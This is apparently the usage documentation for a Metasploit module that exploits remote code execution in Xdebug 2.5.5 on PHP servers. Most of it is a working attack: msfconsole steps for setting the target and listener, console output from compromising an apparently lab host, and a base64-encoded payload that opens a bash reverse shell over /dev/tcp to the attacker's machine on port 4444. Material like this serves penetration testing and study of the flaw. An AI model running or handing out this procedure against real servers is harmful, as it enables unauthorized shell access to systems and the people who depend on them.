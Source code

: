 Xdebug is a PHP debugging tool that supports remote debugging of PHP code on the server via source code.
This module exploits the RCE vulnerability and gives a command shell back.

- Source: https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface

- Documentation: https://xdebug.org/docs-dbgp.php

- Tested on: Xdebug version 2.5.5

List the steps needed to make sure this thing works

-  Start `msfconsole`
-  `use exploits/unix/http/xdebug_rce`
-  `check`
-  `set RHOST 10.10.10.83` 
-   `set LHOST 10.10.14.197`
-   `exploit`

**Example Outputs**

- Check

```msf > use exploits/unix/http/xdebug_rce
msf exploit(unix/http/xdebug_rce) > set RHOST 10.10.10.83
RHOST => 10.10.10.83
msf exploit(unix/http/xdebug_rce) > set LHOST tun0
LHOST => tun0
msf exploit(unix/http/xdebug_rce) > check

[+] 10.10.10.83:80 - Looks like remote server has xdebug enabled

[*] 10.10.10.83:80 The target service is running, but could not be validated.
msf exploit(unix/http/xdebug_rce) > ```



- Run


msf exploit(unix/http/xdebug_rce) > run

[*] Started reverse TCP handler on 10.10.14.197:4444 
[+] 10.10.10.83:80 - Looks like remote server has xdebug enabled

[*] 10.10.10.83:80 - Sending payload...... 
[*] 10.10.10.83:80 - Waiting for client response.....
[*] 10.10.10.83:80 - Received data.....
[*] Command shell session 1 opened (10.10.14.197:4444 -> 10.10.10.83:36628) at 2018-04-23 20:45:41 +0530

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

- Run verbose output

msf exploit(unix/http/xdebug_rce) > set verbose true
verbose => true
msf exploit(unix/http/xdebug_rce) > run

[*] Started reverse TCP handler on 10.10.14.197:4444 
Request send
Date: Mon, 23 Apr 2018 15:16:56 GMT
Server: Apache
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
Xdebug: 2.5.5
Content-Length: 314
Content-Type: text/html; charset=UTF-8


[+] 10.10.10.83:80 - Looks like remote server has xdebug enabled

[*] 10.10.10.83:80 - Sending payload...... 
Payload sent-eval -i 1 -- c3lzdGVtKCIgYmFzaCAtYyAnMDwmMTkyLTtleGVjIDE5Mjw+L2Rldi90Y3AvMTAuMTAuMTQuMTk3LzQ0NDQ7c2ggPCYxOTIgPiYxOTIgMj4mMTkyJyIp
[*] 10.10.10.83:80 - Waiting for client response.....
[*] 10.10.10.83:80 - Received data.....
490<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="1179" idekey="jtGjvfApYD"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
[*] Command shell session 2 opened (10.10.14.197:4444 -> 10.10.10.83:36676) at 2018-04-23 20:46:56 +0530

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)```
